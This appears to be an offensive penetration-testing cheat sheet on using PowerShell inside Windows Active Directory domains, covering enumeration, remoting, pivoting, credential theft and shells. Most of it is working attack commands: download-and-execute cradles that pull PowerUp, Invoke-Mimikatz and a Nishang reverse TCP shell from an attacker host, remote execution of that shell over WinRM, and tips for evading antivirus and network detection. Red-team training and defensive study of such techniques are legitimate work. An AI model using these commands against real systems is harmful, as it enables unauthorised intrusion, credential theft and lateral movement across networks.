 # Powershell

This article is about using different techniques to achieve both enumeration of the domain, popping shells, pivoting and executing exploits to gain further access. Pivoting means to move across machines in an environment. Of course we use the prevalence of Powershell in modern Windows environments to our advantage. We also string together many of these tricks towards efficient and stealthy hacking with a small footprint. Powershhell can do a lot straight into memory without dropping files to disk. BOX01 will be the name of the example box in this article. 10.10.10.10 is also just an example of what would be your local IP address when performing such attacks. Hosting files for download from kali is easy using `python -SimpleHTTPServer 80`

It can also be wise to here set up a local certificate on the server and use HTTPS/443 to avoid detection by network security controls.

Most of these tricks can be employed with only a domain user.

## Downloading/uploading files

Downloading files to boxes willsometimes be necessary, but don't forget that Powershell has the ability to do so much both remotely and execute straight in memory, which is better when you need to be a ninja or bypass things like Antivirus.

This will download a file to the current folder with the same name. An interactive powershell is not necessary for running these commands. They can be ran straight from CMD.

`Powershell.exe -nop -exec bypass -c "IEX (New-Object System.Net.WebClient).Downloadfile('http://10.10.10.10/file.txt');"`

This will download to a specific folder and with a specific name as specified in the second argument of the DownloadFile function.

`Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadFile('http://10.10.10.10/PowerView.ps1','C:\tmp\PowerView.ps1');"`

## BloodHound

BloodHound is a tool for mapping out the entire domain graphically.

`Powershell -exec bypass`

`Import-module sharphound.ps1`

`Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default -CompressData -SkipPing`

## Remoting

Once a domain user is acquired, a lot can be done in terms of remoting. In AD environments, a shell on a box is barely required given a certain set of criteria. One a domain user as been acquired you can use numerous commands to work remotely on boxes you have access to either through domain or local privileges on the remote box. Windows has three ways of providing authenticated access: credentials, hash or tokens. You can see those differnet types of access below:

If file shares are available on a box you can use dir on the path without ever getting prompted for a password given that you already have a shell as the user you want to authenticate as. This means if you somehow got a shell without credentials or a hash, you still have your token to verify your identity to remote services. See command below for a simple verification.

`dir \\BOX01\c$\`

If you however don't have a shell but the credentials of a domain user you can use the somewhat old school [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-xp/bb490994%28v=technet.10%29). This \_will \_prompt you for password, but can be ran without a shell from your own machine.

/netonly : Indicates that the user information specified is for remote access only.

`runas /netonly /FQDN\user cmd.exe`

Run the following command to execute powershell and get on a remote box

`runas /netonly /user:customer\ank powershell`

Using WMIC, check which users have sessions on a remote machine. Local administrator privileges are not necessary to execute this remotely.

```text
wmic /node:box01.lab.local path win32_loggedonuser get antecedent
```

Powershell supports WinRM natively, which allows remote execution of commands. Here is how to execute a command on a remote box the current user has access to only using tokens, \(no prompt for password or PTH\). Here the hostname command is used for verification, but you can essentially replace it with any command, like powershell.

`Invoke-Command -ComputerName BOX01 -Scriptblock {hostname}`

If you want to go even harder, you can set up credentials in Powershell. This is something that Empire can do natively with functions like ps\_remoting.

`$username = 'DOMAIN\USERNAME'; $password = 'PASSWORD'; $securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; Invoke-Command -ComputerName BOX01 -Credential $credential -ScriptBlock {hostname};`

## Powerview

Powerview is a super useful set of tools for enumerating a domain. It is part of the much larger toolset of Powersploit, and development is huge on this, so things change all the time.The script and full command list for Powerview can be found here:

[https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)

PowerView might be blocked by antivirus, see this funny little article on how to "bypass" it. This actually worked in a real environment in 2018. [https://implicitdeny.org/2016/03/powerview-caught-by-sep/](https://implicitdeny.org/2016/03/powerview-caught-by-sep/)

In powerview, there is a super useful function called `Find-LocalAdminAccess` which enumerates which machines the current user is local administrator on. This can be very useful, as you can then remotely execute things like mimikatz on those boxes straight into memory to get the credentials of domain users. If you need an overview of what groups and users are local admin on every box in the environment you can use `Invoke-EnumerateLocalAdmin`

If you want to go hail mary and fuck shit up you can run every single module in Powerview:

In PowerUp.ps1, add `Invoke-AllChecks` at the bottom of the file. This makes the powershell script execute that function straight into memory after the string has been downloaded. This works for any function inside a powershell-script.

`Powershell.exe -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.47/PowerUp.ps1'); Invoke-AllChecks”`

## Mimikatz

Similar as with powervioew, add a line at the bottom of the ps1 file stating the command you want to execute. Immediate results straight in the terminal!

```text
Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-Mimikatz.ps1');"
```

## Shells

Ninshang shells are the shit [https://github.com/samratashok/nishang/tree/master/Shells](https://github.com/samratashok/nishang/tree/master/Shells)

```text
Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1');"
```

We can do the same thing remotely to a box we have access to using WinRM.

```text
Invoke-Command -ComputerName BOX01  -Scriptblock {Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClien
t).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1');"}
```

Should also start looking into using HTTPS shells here to avoid detection.

## Invoke-Kerberoast

kerberoasting is a technique

[https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)

[https://room362.com/post/2016/kerberoast-pt1/](https://room362.com/post/2016/kerberoast-pt1/)

